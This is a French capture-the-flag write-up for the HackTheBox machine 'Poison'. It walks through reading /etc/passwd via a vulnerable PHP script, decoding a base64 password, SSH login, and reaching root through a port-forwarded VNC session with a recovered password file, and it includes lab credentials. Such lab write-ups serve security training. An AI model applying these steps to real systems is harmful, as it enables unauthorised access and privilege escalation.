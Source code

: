 # Solution du CTF Poison de HackTheBox

Nitro
-----

Ce moment où tu fais le compte des CTF résolus sur [HackTheBox](https://www.hackthebox.eu/) et que tu es en retard sur l'écriture des writeup pour seulement... 6 machines :D  

Allez ! Le pwnage ne prend pas de vacances ! On est pas des manches, on se remonte les manches !  

Level 1
-------

C'est parti pour le sempiternel scan de ports :  

```plain
Nmap scan report for 10.10.10.84
Host is up (0.027s latency).
Not shown: 47967 filtered ports, 17554 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
80/tcp   open  http?
|_http-comments-displayer: Couldn't find any comments.
|_http-fetch: Please enter the complete path of the directory to save data in.
|_http-mobileversion-checker: No mobile version detected.
|_http-referer-checker: Couldn't find any cross-domain scripts.
|_http-security-headers: 
|_http-traceroute: ERROR: Script execution failed (use -d to debug)
| http-useragent-tester: 
|   Allowed User Agents: 
|     Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
|     libwww
|     lwp-trivial
|     libcurl-agent/1.0
|     PHP/
|     Python-urllib/2.5
|     GT::WWW
|     Snoopy
|     MFC_Tear_Sample
|     HTTP::Lite
|     PHPCrawl
|     URI::Fetch
|     Zend_Http_Client
|     http client
|     PECL::HTTP
|     Wget/1.13.4 (linux-gnu)
|_    WWW-Mechanize/1.34
|_http-xssed: No previously reported XSS vuln.
5802/tcp open  vnc-http-2?
5803/tcp open  vnc-http-3?
5804/tcp open  unknown
5805/tcp open  unknown
5902/tcp open  vnc         VNC (protocol 3.8)
|_unusual-port: vnc unexpected on port tcp/5902
5903/tcp open  vnc         VNC (protocol 3.8)
|_unusual-port: vnc unexpected on port tcp/5903
5904/tcp open  vnc         VNC (protocol 3.8)
5905/tcp open  vnc         VNC (protocol 3.8)
6002/tcp open  X11:2?
|_x11-access: ERROR: Script execution failed (use -d to debug)
6003/tcp open  X11:3?
|_x11-access: ERROR: Script execution failed (use -d to debug)
6004/tcp open  X11:4?
|_x11-access: ERROR: Script execution failed (use -d to debug)
6005/tcp open  X11:5?
|_x11-access: ERROR: Script execution failed (use -d to debug)
Device type: firewall
Running (JUST GUESSING): Fortinet embedded (87%)
OS CPE: cpe:/h:fortinet:fortigate_100d
Aggressive OS guesses: Fortinet FortiGate 100D firewall (87%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

Hmmm X11 ? Ça fait loooooongtemps que j'ai pas joué avec ça mais on se prépare mentalement au cas où :p  

Nmap y voit du *Fortinet* mais d'après la classification sur HackTheBox on sait à l'avance que l'on a affaire à du FreeBSD :)  

Sur la page d'index du serveur web se trouve un formulaire permettant d'exécuter un script PHP parmi plusieurs choix existants :  

![Index page of Poison CTF from HackTheBox](https://github.com/devl00p/blog/raw/master/images/htb/poison_index.png)

Ce script est largement vulnérable puisque si l'on saisit */etc/passwd* dans le champ de texte on obtient le contenu du fichier qui révèle la présence d'un utilisateur nommé *charix*.  

Parmi les scripts déjà présents le fichier *listfiles.php* liste le contenu du dossier courant (la racine web) et indique la présence du fichier *pwdbackup.txt* que voici :  

```plain
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

Il suffit de lancer un interpréteur Python, mettre cette chaîne dans une variable et faire une boucle de décodage base64 jusqu'à une exception de décodage arrive :  

```plain
>>> while True:
...   s = b64decode(s).decode()
...
Traceback (most recent call last):
  File "<stdin>", line 2, in <module>
  File "/usr/lib/python3.6/base64.py", line 87, in b64decode
    return binascii.a2b_base64(s)
binascii.Error: Incorrect padding
>>> s
'Charix!2#4%6&8(0'
```

Ce mot de passe nous permet de nous connecter via ssh (et oui déjà !) :  

```plain
devloop@kali:~$ ssh charix@10.10.10.84
Password for charix@Poison:
Last login: Mon Aug 20 18:07:20 2018 from :9
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

---snip---

Edit /etc/motd to change this login announcement.
Need to quickly empty a file? Use ": > filename".
        -- Dru <genesis@istar.ca>
charix@Poison:~ % id
uid=1001(charix) gid=1001(charix) groups=1001(charix)
```

Et d'obtenir le flag utilisateur : *eaacdfb2d141b72a589233063604209c*   

Level 2
-------

Dans le home de l'utilisateur se trouve une archive protégée par mot de passe (*secret.zip*) ouvrable avec le même password que le SSH.  

Cela nous donne un fichier *secret* dont le contenu est le suivant :  

```plain
$ hexdump -C secret
00000000  bd a8 5b 7c d5 96 7a 21                           |..[|..z!|
```

Et dans le dossier *.vnc* de l'utilisateur on trouve aussi un fichier passwd :  

```plain
$ hexdump -C passwd
00000000  60 d7 57 ef 13 4f ff 41                           |`.W..O.A|
```

C'est toujours un peu déstabilisant de se retrouver sur du BSD en raison des options des utilitaires qui ne sont pas tout à fait les même. Là on avait en plus à gérer un shell csh. Ainsi pour lister les exécutables set-uid il fallait à titre d'exemple lancer la commande suivante :  

```bash
(find / -user root -type f -perm -u+s > /dev/tty) > & /dev/null
```

Plutôt que de fouiller dans les pages de manuel les bonnes options c'est parfois plus simple d'utiliser une commande alternative. Exemple pour remplacer netstat -lntp :  

```plain
charix@Poison:~ % sockstat -4 -l
USER     COMMAND    PID   FD PROTO  LOCAL ADDRESS         FOREIGN ADDRESS
www      httpd      913   4  tcp4   *:80                  *:*
www      httpd      911   4  tcp4   *:80                  *:*
www      httpd      907   4  tcp4   *:80                  *:*
www      httpd      906   4  tcp4   *:80                  *:*
www      httpd      905   4  tcp4   *:80                  *:*
www      httpd      904   4  tcp4   *:80                  *:*
www      httpd      902   4  tcp4   *:80                  *:*
www      httpd      900   4  tcp4   *:80                  *:*
www      httpd      852   4  tcp4   *:80                  *:*
root     sendmail   729   3  tcp4   127.0.0.1:25          *:*
www      httpd      716   4  tcp4   *:80                  *:*
root     httpd      675   4  tcp4   *:80                  *:*
root     sshd       620   4  tcp4   *:22                  *:*
root     Xvnc       529   1  tcp4   127.0.0.1:5901        *:*
root     Xvnc       529   3  tcp4   127.0.0.1:5801        *:*
root     syslogd    390   7  udp4   *:514                 *:*
```

La recherche classique sur les fichiers n'ayant rien remonté on remarque la présence d'un Xvnc dans les process avec l'utilisation d'un fichier *passwd* présent dans un dossier *.vnc* :  

```plain
Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten...
```

On peut essayer de s'y connecter avec l'un des fichiers que l'on a récupéré. Pour cela on fait d'abord une redirection de port via SSH :  

```bash
ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
```

Il suffit alors d'utiliser *xvncviewer* en spécifiant le display. le principe est le suivant : les numéros de displays commencent à 5900 donc le 1 correspondra à notre port forwardé 5901 (souvenirs, souvenirs...)  

On s'en tire alors avec la commande *xvncviewer -passwd secret 127.0.0.1:1* qui nous amène face à un terminal root qui traînait par là :  

![Poison HackTheBox CTF final root flag with xvncviewer](https://github.com/devl00p/blog/raw/master/images/htb/poison_root_flag.png)

Game over
---------

[One more in the bank !](https://www.youtube.com/watch?v=Rre3zgL7eMk) Next one...

*Published September 08 2018 at 18 46*